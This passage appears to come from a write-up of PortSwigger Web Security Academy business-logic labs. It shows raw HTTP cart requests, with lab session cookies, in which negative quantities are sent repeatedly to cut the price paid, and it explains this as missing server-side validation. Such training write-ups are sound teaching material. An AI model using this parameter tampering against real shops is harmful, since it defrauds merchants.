 There we change the product Id and they send other products to our cart. Now we send the following request.

```
POST /cart HTTP/2
Host: 0a0e0044046bfe84804aeacb00ec0010.web-security-academy.net
Cookie: session=HlHuJEp1YaBlx1NQn5wnlq3LKS2pMhOq
[Redacted]

productId=1&redir=PRODUCT&quantity=-6
```

This will add the product with a negative cart value that could change our price. Now we can send the above request again and again until we see the cart price is enough for us to purchase. When our cart is enough to purchase then click on checkout and solve the lab.

In this lab we see the developer doesn't validate our input on the server side and that causes this attack to be successful.

### LAB #4: Low-level logic flaw

Lab URL: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level

**Given Credential**
```
wiener:peter
```

**Objective**
Purchase the `Lightweight l33t leather jacket` with an unintended price by exploiting a business logic flaw.

This lab contains a shopping application in which they have a different number of products to sell. They have a My Account functionality in which we can login to our account. We can view details of the product on its Home page, there they have Description and its price details. We can also specify the quantity value after that we can add the product and the quantity to our cart.

The **Add to cart** functionality sends a POST request in which they specify the parameters like `productId`, `redir`, `quantity`, and `price`. The whole request looks like the following.

```
POST /cart HTTP/2
Host: 0a9b00f903d3937a8142208d00bb0037.web-security-academy.net
Cookie: session=f1CWmx9nogLrI2C1JW6qcPqCU3qwWtjr
Origin: https://0a9b00f903d3937a8142208d00bb0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

productId=1&redir=PRODUCT&quantity=1
```

We can also remove the item from the cart and their request look like following

```
POST /cart HTTP/2
Host: 0a9b00f903d3937a8142208d00bb0037.web-security-academy.net
Cookie: session=f1CWmx9nogLrI2C1JW6qcPqCU3qwWtjr
Content-Length: 36
Origin: https://0a9b00f903d3937a8142208d00bb0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

productId=1&quantity=-1&redir=CART
```
